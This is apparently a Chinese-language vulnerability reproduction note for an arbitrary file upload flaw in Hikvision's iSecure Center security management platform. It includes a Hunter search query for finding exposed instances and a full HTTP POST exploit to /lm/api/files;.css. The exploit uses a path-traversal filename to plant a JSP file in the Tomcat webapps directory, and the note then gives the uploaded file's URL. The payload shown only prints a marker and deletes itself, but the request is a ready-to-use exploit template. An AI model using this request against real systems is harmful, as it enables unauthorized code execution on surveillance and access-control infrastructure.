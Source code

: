 # 海康威视iSecure Center综合安防管理平台lm任意文件上传漏洞

# <font style="color:rgb(0, 0, 0);">1、漏洞描述</font>
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视isecure center 综合安防管理平台存在任意文件上传漏洞</font>

# <font style="color:rgb(0, 0, 0);">2、影响版本</font>
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台 </font>

![1691858081036-d871cda5-31d1-4693-a77d-41c0bb876b49.png](./img/5ZrA5yjv_Euokk9i/1691858081036-d871cda5-31d1-4693-a77d-41c0bb876b49-238063.png)

# <font style="color:rgb(0, 0, 0);">3、资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

# 4、漏洞复现
```plain
POST /lm/api/files;.css HTTP/1.1
Host: 192.168.110.74
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Length: 342
SL-CE-SUID: 39

------WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Disposition: form-data; name="file"; filename="../../../../../tomcat85linux64.1/webapps/els/static/axaaxs.jsp"
Content-Type: application/zip

<% out.println("testaxssax");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryVBf7Cs8QWsfwC82M--
```

![1705912656579-0b74f2f8-cbab-4b04-a900-bb1f98c17b36.png](./img/5ZrA5yjv_Euokk9i/1705912656579-0b74f2f8-cbab-4b04-a900-bb1f98c17b36-353064.png)

上传文件位置

```plain
/els/static/axaaxs.jsp
```

![1705912686065-2a7d66ab-a16e-4db2-bfbe-e0625f20dd76.png](./img/5ZrA5yjv_Euokk9i/1705912686065-2a7d66ab-a16e-4db2-bfbe-e0625f20dd76-489678.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hezxivrgwt7xmo53>